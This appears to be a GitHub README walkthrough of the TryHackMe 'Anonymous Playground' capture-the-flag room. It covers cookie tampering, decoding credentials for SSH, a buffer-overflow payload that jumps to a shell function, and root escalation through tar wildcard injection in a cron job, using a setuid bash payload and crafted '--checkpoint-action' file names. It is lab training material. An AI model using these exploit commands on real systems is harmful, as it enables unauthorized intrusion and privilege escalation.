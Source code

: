 # Anonymous Playground CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Anonymous Playground** CTF challenge on [TryHackMe](https://tryhackme.com/room/anonymousplayground). 
---

we see open ports 22 and 80

![scn](imgs/scn.png "scn")

in the robots.txt we see folder `/zYdHuAKjP`

![rb](imgs/rb.png "rb")

if we head to this folder we see information that we dont have access 

![na](imgs/na.png "na")

we also see a comment about `/upcoming.php` but there is a 404 error

![cm](imgs/cm.png "cm")

running feroxbuster scan but didnt find anything special

![fer](imgs/fer.png "fer")

going back to /zYdHuAKjP we can check the cookies tab and we see a cookie called acces and value denied

![cook](imgs/cook.png "cook")

i tried changing the value to granted, it worked and we have got some interesting info

![ag](imgs/ag.png "ag")

we can see a pattern of one lower-case and one upper-case letter and we see that the first few characters are the same on the right and left side hEzAdCfHzA, from the hint we also know: `'zA' = 'a'`

after writing a python script with AI i decoded the secret message (it looks like credentials)

![py](imgs/py.png "py")

i tried using this as ssh credentials and they worked !! we have access to shell

![ssh](imgs/ssh.png "ssh")

we can grab the user 1 flag

![f1](imgs/f1.png "f1")

we see a note that informs us that we need to reverse a C program

![nt](imgs/nt.png "nt")

after looking at ghidra we see function gets() so we can test for buffer overflow, using this command we can check how long input will generate segmentation fault

![ma](imgs/ma.png "ma")

```
for i in {1..200}; do echo "Testowanie z długością $i" && echo $(printf 'A%.0s' $(seq 1 $i)) | ./hacktheworld; done
```

![sg](imgs/sg.png "sg")

we see that we can input 72 A before buffer overflow

in ghidra and radare2 we can also find function called call_bash()

![rad](imgs/rad.png "rad")

![cb](imgs/cb.png "cb")

by using gdb we can determin its address when we create buffer overflow we will jump to it `0x40065b`

```
$ gdb ./hacktheworld
(gdb) break call_bash
```

![gd](imgs/gd.png "gd")

after providing AI with an addresss and the size of 72 it generated this command to exploit buffer overflow, it works but we lose the shell

```
python3 -c "print('A'*72 + '\x5b\x06\x40\x00\x00\x00\x00\x00')" | ./hacktheworld
```

![bo](imgs/bo.png "bo")

to make it work we need to use this command

```
(python -c 'print "A"*72 + "\x5b\x06\x40\x00\x00\x00\x00\x00"';cat) | ./hacktheworld
```

we now have access as spooky

![sp](imgs/sp.png "sp")

we can grab user 2 flag

![f2](imgs/f2.png "f2")

now we need to get root access, after running linpeas we see some jobs being executed as root in crontab

![li](imgs/li.png "li")

to exploit this we can use `tar wildcards`, tar supports `--checkpoint` and `--checkpoint-action`, they can execute any command if we use right name for the files in the catalog 

first we need do create the malicious script

```
$ echo '#!/bin/bash' > payload.sh
$ echo 'cp /bin/bash /tmp/rootbash' >> payload.sh
$ echo 'chmod +s /tmp/rootbash' >> payload.sh
$ chmod +x payload.sh
```

next, we create files that tar will use to trigger the malicious script:

```
$ echo "" > '--checkpoint-action=exec=sh payload.sh'
$ echo "" > "--checkpoint=1"
```

![ch](imgs/ch.png "ch")

now we need to wait a moment and then we use this command to gain root shell

```
/tmp/rootbash -p
```

![rt](imgs/rt.png "rt")

now we have root access and root flag

![f3](imgs/f3.png "f3")

# MACHINE PWNED
